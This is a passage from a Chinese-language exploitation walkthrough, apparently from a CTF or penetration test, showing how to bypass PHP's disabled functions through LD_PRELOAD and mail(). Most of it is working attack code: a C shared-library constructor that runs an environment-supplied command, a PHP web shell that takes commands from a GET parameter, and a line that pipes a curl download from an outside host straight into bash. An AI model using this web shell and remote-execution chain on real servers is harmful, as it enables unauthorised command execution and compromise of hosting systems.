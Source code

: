 ```php
<?php
   putenv("LD_PRELOAD=/var/www/html/test.so");
   mail("","","","","");
  ?>
```


借用大佬写的动态连接代码
```c
#include <stdlib.h>
__attribute__((constructor)) void j0k3r(){
    unsetenv("LD_PRELOAD");
    if (getenv("cmd") != NULL){
        system(getenv("cmd"));
    }else{
        system("echo 'no cmd' > /tmp/cmd.output");
    }
}
```

5. 上传php页面尝试执行命令:


```php
<?php
$cmd=@$_GET['cmd'];
putenv("cmd=".$cmd);
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>


<?php
putenv("cmd=curl -A o -o- -L http://192.168.91.1:55413/a | bash -s");
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>
```

执行时间要过个几十秒吧。

![](img/3.png)
